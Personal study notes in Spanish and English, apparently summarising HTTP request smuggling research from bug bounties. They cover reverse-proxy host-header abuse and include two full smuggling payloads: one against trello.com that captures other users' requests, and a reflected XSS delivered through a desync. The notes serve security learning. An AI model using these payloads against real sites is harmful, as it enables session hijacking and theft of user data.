 
### Reverse Proxy
En este ejemplo vemos a New Relic que no estaba usando un backend en sí sino un reverse proxy.
Cambieando el host header podía acceder a distintos sitemas, un SSOF.
El servidor respondía con un https porque considera que la solicitud es http y la intenta upgradear, para evistar esto tenemos la cabecera `X-Forwarded-Proto: https`. James fue añadiendo distintas cabeceras 
![[Pasted image 20240805154401.png]]
Instead of continue proving all that stuff, James appeal to his last notes from later bounties of the same web site.

## TAKEAWAY
Si el servidor web está configurado para usar HTTPS, detecta la solicitud HTTP y responde con un código de estado 301 (Moved Permanently) o 302 (Found) para indicar que el recurso solicitado ha sido movido permanentemente o temporalmente a una ubicación diferente.
### Trello exploit
"If a web a application has any way of persistently storing text data, then exploitation is really easy"
![[Pasted image 20240805190758.png]]

```HTTP
POST /1/cards HTTP/1.1
Host: trello.com
Transfer-Encoding:[tab]chunked
Content-Length: 4

9f
PUT /1/members/1234 HTTP/1.1
Host: trello.com
Content-Type: application/x-www-form-urlencoded
Content-Length:400

x=x&csrf=1234&username=testzzz&bio=cake
0

GET / HTTP/1.1
Host: trello.com
```



First James used this request to upgrade his account, using the borrow parameter at last. What did this bug more critical is that by concatenating that green request you just can get the information of any random user currently browsing in the web application. Also were able to file a support ticket which contained the user's requests with their emails and all of that
### Harmful Responses
In this example James have founded an reflected XSS 
```HTTP
POST /1/cards HTTP/1.1
Host: saas-app.com
Content-Length: 4
Transfer-Encoding : chunked

10
=x&csrf=token&x=
66
POST /index.php HTTP/1.1
Host: saas-app.com
COntent-Length: 100

SAML=a><script>alert(1)</script>
0 POST / HTTP/1.1
```